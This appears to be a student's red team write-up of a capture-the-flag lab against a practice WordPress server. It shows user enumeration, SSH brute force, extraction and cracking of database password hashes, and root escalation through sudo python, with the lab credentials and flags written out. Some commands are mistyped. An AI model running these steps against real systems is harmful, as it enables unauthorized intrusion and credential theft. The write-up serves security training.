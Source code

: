 ## Red Team: Summary of Operations

Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167323675-6f768eff-da1b-490b-b86c-72e2a331e513.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323759-8b74a228-fd22-46af-8999-f0280edcce4b.PNG)
			![flag1b](https://user-images.githubusercontent.com/92223941/167323777-53619b86-1123-4d0d-8a23-56ab23b44df5.PNG)


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			
			![flag1c](https://user-images.githubusercontent.com/92223941/167323904-5f7dbbbf-c62e-4840-9d8d-5c3cb6ca28d3.PNG)
			![flag1d](https://user-images.githubusercontent.com/92223941/167323988-ee4f5658-4624-4ac0-9aa0-6d47643b3918.PNG)
			![flag1e](https://user-images.githubusercontent.com/92223941/167324002-8ede5afa-1078-40b4-a2aa-29477dd533b2.PNG)
			![flag1f](https://user-images.githubusercontent.com/92223941/167324020-5c639462-a395-4025-a2c9-09fd8bd3af5d.PNG)




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			![flag1g](https://user-images.githubusercontent.com/92223941/167324082-3fc31b7f-4941-42ed-a7aa-83717c4d95ab.PNG)

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”

	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;

	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			- I logged into Steven via ssh 
			- ssh steven password:pink84
			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
